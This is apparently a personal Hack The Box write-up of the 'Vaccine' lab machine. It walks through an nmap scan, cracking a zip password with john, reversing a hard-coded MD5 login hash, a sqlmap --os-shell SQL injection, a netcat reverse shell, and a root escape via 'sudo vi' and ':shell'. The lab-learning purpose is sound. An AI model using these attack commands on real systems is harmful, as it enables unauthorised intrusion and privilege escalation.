 # Vaccine

The third box in the starting-point zone on https://hackthebox.eu -- a Linux machine.  The name seems to imply something about a virus, maybe a mis-configured antivirus.  We'll find out :)

This box only took one day and the steps I took are fairly on-point so there's no additional "clean walkthrough" unlinke on Oopsie.

## Day 1

We're going to start with a simple nmap scan of the box.  The command I like to use does service version and OS discovery, a TCP SYN scan, the default nmap scripts, and outputs everything to greppable, normal, and XML formats for automation later if I so choose:

```shell
└─$ sudo nmap -oA nmap -O -sV -sC -sS 10.10.10.46 
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-25 14:58 EDT
Stats: 0:00:18 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Nmap scan report for 10.10.10.46
Host is up (0.014s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
...
```

So we have FTP, SSH, and a web server.  Remembering that filezilla.xml file, I plug in the creds and connect.

Looks like there's a backup.zip file, so I'm going to download and upzip it...

### Backup.zip

Trying to unzip it, we're asked to enter a password.  Drats... let's try to crack it.

```shell
└─$ zip2john backup.zip > backup.zip.hashes
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt backup.zip.hashes 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)
1g 0:00:00:00 DONE (2021-07-25 15:59) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooo
Use the "--show" option to display all of the cracked passwords reliabl
```

Now that we have the password (741852963) we unzip the file:

```shell
└─$ unzip backup.zip                                               
Archive:  backup.zip
[backup.zip] index.php password: 
  inflating: index.php               
  inflating: style.css 
```

Looks like a backup of the web application.  Let's take a look at index.php

### Index.php

Not much of a mystery what's going on here if you can read some basic PHP:

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
    2cb42f8734ea607eefed3b70af13bbd3
  }
?>
```

Looks like the username and password are hard-coded, so let's go visit that webpage and try to login...

Login failed? Oh, wait, is that a hash?  A quick google and we see that hash translates as `qwerty789`, which, when used to login, actually works :)

### Dashboard.php

Here we have a simple table, not much to click on except the search box.  Let's try searching for a quote:

```
http://10.10.10.46/dashboard.php?search='

-->  ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
```

Looks like it's ripe for SQL injection, so let's load up `sqlmap`:

```
└─$ sqlmap http://10.10.10.46/dashboard.php?search=val --cookie="PHPSESSID=jfm634hi0sa9mn0gkgf2fj7c6m" --os-shell
```

And now we have a shell as the postgres user.  Sweet.

### Privilege Escalation

As postgres, we can read /home/simon, /var/www/html and /home/ftpuser but none of htem immediately show anything interesting when we poke around in them.

There is a .ssh folder in the postgres home dir, though, and a private / public key pair there, so that's something.  I grab those down and spawn an SSH session rather than my netcat reverse shell (which I had already upgraded with the `stty raw -echo; fg` trick but which keeps dropping off on me)

After a while of poking around in different directories (/var/log, /var/backups, /tmp, etc) I decide to read the PHP code.

Looks like the postgres password is encoded in that file.  Interesting, let me try and "sudo" with that password... but what can I sudo?

```
postgres@vaccine:/var/www/html$ sudo -l
...
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

So I can run a vi session, great!  That means I can open vim (on that file...) and then type `:shell` and get a root shell... let's try it...

```
root@vaccine:/var/www/html# whoami
root
```

Power.

## Summary

This is the first HTB box I got on my own without looking at the walkthrough!  I peaked at the end, and there's no post-exploitation stuff (I looked around a bit first, also.)  

So to recap:
1. We used the filezilla password to login and grab the backups file
2. We used an online rainbow table to reverse the md5 in the backups to get the password, which let us log in
3. We used SQLi and `sqlmap` to get RCE, which we turned into a reverse shell
4. We looked around and found another password in dashboard.php which let us sudo vi
5. we used :shell in vi to become root and grab the flag
6. There is no user flag, and there is no post exploitation steps

Hurrah!  NEXT BOX!  :)



